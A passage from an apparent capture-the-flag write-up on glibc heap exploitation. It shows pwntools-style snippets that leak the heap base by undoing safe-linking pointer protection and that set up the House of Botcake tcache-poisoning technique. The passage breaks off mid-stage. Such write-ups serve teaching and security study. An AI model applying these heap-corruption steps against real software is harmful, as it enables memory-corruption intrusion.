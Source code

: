 So as I mentioned above, with the first chunk is freed and goes to tcache, the forward pointer will be like this:

```
# (<Current chunk address> >> 12) ^ <Previous chunk address> = <protected forward pointer>
  (       0x1a1c2a0        >> 12) ^             0            = 0x1a1c
```

So to recover the heap base address, we just simply do the reverse order (don't need to XOR) with the following payload:

```
heap = u64(show(0).ljust(8, b'\x00')) << 12
log.success("Heap base: " + hex(heap))
```

And we get the heap base address. Before we move on next stage, just malloc again to reset the state of tcache bin to null:

```
add(0, 0x10, '{}'.format(0).encode()*8)
```

And now, let's move on!

### Stage 3: Overwrite forward pointer

For this stage, we will use the technique called [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.32/house_of_botcake.c). 

We will first malloc 7 chunks with the size larger than fastbin but still smaller than tcache and the ideal size if 0x100:

```
for i in range(7):
    add(i, 0x100, '{}'.format(i).encode()*8)
```

Next, we will create 2 chunks with the same size as 0x100, the first one will be used for controlling (overwrite forward pointer) and the second one for attacking tcache:

```
add(7, 0x100, '{}'.format(7).encode()*8)
add(8, 0x100, '{}'.format(8).encode()*8)
```

And 1 small chunk to avoid consolidation:

```
add(9, 0x10, '{}'.format(9).encode()*8)
```

Next, we will free all 7 chunks at the begining of this stage to fill up the tcache:

```
for i in range(7):
    free(i)
```

And with the next free() the chunk with the same size as 0x100, because tcache is full so it will not be added to tcache but will put it to fastbin (if within size range of fastbin) or unsorted bin (in this case is unsorted bin because 0x100 is larger than fastbin)
